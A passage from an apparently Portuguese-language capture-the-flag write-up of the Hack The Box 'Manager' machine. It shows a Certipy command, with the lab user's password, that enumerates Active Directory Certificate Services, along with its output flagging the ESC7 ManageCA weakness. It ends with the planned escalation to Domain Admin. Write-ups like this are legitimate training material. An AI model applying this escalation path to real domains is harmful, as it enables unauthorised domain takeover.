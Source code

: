     `certipy find -u raven -p 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.10.11.236 -stdout -vulnerable`
    
    ```bash
    certipy find -u raven -p 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.10.11.236 -stdout
    -vulnerable
    Certipy v4.7.0 - by Oliver Lyak (ly4k)
    [*] Finding certificate templates
    [*] Found 33 certificate templates
    [*] Finding certificate authorities
    [*] Found 1 certificate authority
    [*] Found 11 enabled certificate templates
    [*] Trying to get CA configuration for 'manager-DC01-CA' via CSRA
    [*] Got CA configuration for 'manager-DC01-CA'
    [*] Enumeration output:
    Certificate Authorities
    0
    CA Name : manager-DC01-CA
    DNS Name : dc01.manager.htb
    Certificate Subject : CN=manager-DC01-CA, DC=manager, DC=htb
    Certificate Serial Number : 5150CE6EC048749448C7390A52F264BB
    Certificate Validity Start : 2023-07-27 10:21:05+00:00
    Certificate Validity End : 2122-07-27 10:31:04+00:00
    Web Enrollment : Disabled
    User Specified SAN : Disabled
    Request Disposition : Issue
    Enforce Encryption for Requests : Enabled
    Permissions
    Owner : MANAGER.HTB\Administrators
    Access Rights
    Enroll : MANAGER.HTB\Operator
    MANAGER.HTB\Authenticated Users
    MANAGER.HTB\Raven
    ManageCa : MANAGER.HTB\Administrators
    MANAGER.HTB\Domain Admins
    MANAGER.HTB\Enterprise Admins
    MANAGER.HTB\Raven
    ManageCertificates : MANAGER.HTB\Administrators
    MANAGER.HTB\Domain Admins
    MANAGER.HTB\Enterprise Admins
    [!] Vulnerabilities
    ESC7 : 'MANAGER.HTB\\Raven' has dangerous
    permissions
    Certificate Templates : [!] Could not find any certificate
    templates
    ```
    
    O relatório indica que o usuário Raven possui permissões perigosas, especialmente tendo direitos de "ManageCA" sobre a Autoridade de Certificação. Isso implica que, utilizando o cenário ESC7, poderíamos potencialmente elevar nossos privilégios para Administrador de Domínio enquanto operamos como usuário Raven. Uma explicação detalhada sobre o processo de exploração para o cenário ESC7 pode ser encontrada aqui. Para explorar isso, primeiro precisaremos adicionar Raven como "oficial", para que possamos gerenciar certificados e emiti-los manualmente.
    